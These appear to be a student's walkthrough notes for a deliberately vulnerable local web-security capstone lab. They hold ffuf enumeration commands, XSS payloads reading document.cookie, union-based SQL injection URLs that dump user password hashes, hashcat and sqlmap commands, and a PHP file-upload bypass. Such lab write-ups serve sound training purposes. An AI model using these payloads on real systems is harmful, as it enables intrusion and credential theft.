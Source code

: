 
to reset
localhost/capstone/init.php

# Enumeration

```sh
ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirb/common.txt  
```

![[Pasted image 20230731161758.png]]

FUZZ the admin page

```sh
ffuf -u http://localhost/capstone/admin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php
```

![[Pasted image 20230731173013.png]]

302 for /capstone/admin/admin.php

***test every URL for all types of vulnerabilities***

1)XSS

logged in users can post reviews and when submitted, request sent to server so not DOM XSS possibility
others can view the comments, can try stored XSS

```js
<script>alert(document.cookie)</script>
```

![[Pasted image 20230731143130.png]]

stroed XSS ✅

A message displayed on successful login

![[Pasted image 20230731160430.png]]

can chnage content of it by change the value of message parameter

![[Pasted image 20230731160509.png]]

can try for Reflected XSS since Request being sent to server 
and getting response back immediately, so changes in network tab

exit the \<p> tag

```html
</p><script>alert(document.cookie)</script>
```

or can do it without exting \<p> tag

```html
<script>alert(document.cookie)</script>
```

![[Pasted image 20230731160751.png]]

Reflected XSS✅

2)IDOR

\http://localhost/capstone/coffee.php?coffee=1
can look for IDOR to find hidden pages

```sh
ffuf -u 'http://localhost/capstone/coffee.php?coffee=FUZZ' -w capstoneNum.txt

```

need to add quotes because fuzzing value of parameter

no results

so no IDOR

3)SQLi ✅

in reviews form
try
i/p: test' or 1=1#
o/p: 1\\' or 1=1#
so ' being escaped

try 
i/p: test\\' or 1=1#

so \\ before '  escapes the \\ we input
o/p: test\\\\\\' or 1=1#

but \\ also being escaped

results of sqlmap: all tested parameters do not appear to be injectable

try for SQLi in url

\localhost/capstone/coffee.php?coffee=2' or 1=1#

this dosent work, try -- - terminator

\localhost/capstone/coffee.php?coffee=2' or 1=1-- -

and it returns all the products as well as user comments

![[Pasted image 20230731162328.png]]


so probably its

select coffee
from table 
where id=2

now try to figure out number of columns 
we see coffee has some 5 properties and image so maybe start with 6 columns


\localhost/capstone/coffee.php?coffee=2' union select null,null,null,null,null,null-- -

works for 7 columns

\localhost/capstone/coffee.php?coffee=2' union select null,null,null,null,null,null,null-- -

find which null is for which parameter

\localhost/capstone/coffee.php?coffee=2' union select null,'string1',null,'string2',null,null,null-- -

input some strings or nums(data type should match)

![[Pasted image 20230731163422.png]]

to get tables, replace string with table_name

\localhost/capstone/coffee.php?coffee=2' union select null,table_name,null,null,null,null,null from information_schema.tables-- -

![[Pasted image 20230731163753.png]]


we get lots of tables

try to get all column names

\localhost/capstone/coffee.php?coffee=2' union select null,column_name,null,null,null,null,null from information_schema.columns-- -

![[Pasted image 20230731164345.png]]

try to get other users data from the columns `username` and `password`

\localhost/capstone/coffee.php?coffee=2' union select null,column_name,null,username,password,null,null from users-- -

![[Pasted image 20230731164636.png]]

we get username and hashes

![[Pasted image 20230731164915.png]]

algo used for hashing: Blowfish

mode for hashcat =3200

```sh
hashcat -m 3200 hash.txt /usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt 

```


found password : captain1

use sqlmap for : \localhost/capstone/coffee.php?coffee=2


```sh
sqlmap -r capstoneReq.txt -T users --dump

```

![[Pasted image 20230731170838.png]]

we found jeremy's password with hashcat

try logging in as jeremy

while fuzzing we got 301 to admin and assets, try going to those URL now because jeremy is an admin 
the page /admin is accessible

localhost://capstone/admin/admin.php

![[Pasted image 20230731171748.png]]

4)Insecure File Upload ✅

we get a file upload feature

try uploading a file, capture the request and try to upload a php file

![[Pasted image 20230731172113.png]]

![[Pasted image 20230731172358.png]]

rename and upload and it works

it is uploaded to 

![[Pasted image 20230731172604.png]]

/assets/11.png

as a normal user go to
/capstone/assets/11.php

![[Pasted image 20230731172751.png]]

